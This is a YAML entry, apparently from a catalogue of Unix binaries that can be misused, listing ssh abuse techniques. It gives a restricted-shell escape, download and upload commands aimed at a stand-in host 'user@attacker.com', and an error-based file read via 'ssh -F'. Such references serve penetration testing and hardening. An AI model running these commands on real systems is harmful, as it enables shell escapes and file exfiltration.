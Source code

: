 ```yaml
---
functions:
  execute-interactive:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost $SHELL --noprofile --norc
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=where_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=where_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  file-read:
    - description: Read lines from text files (error-based approach).
    - code: |
        LFILE=file_to_read
        ssh -F $LFILE localhost
---
```

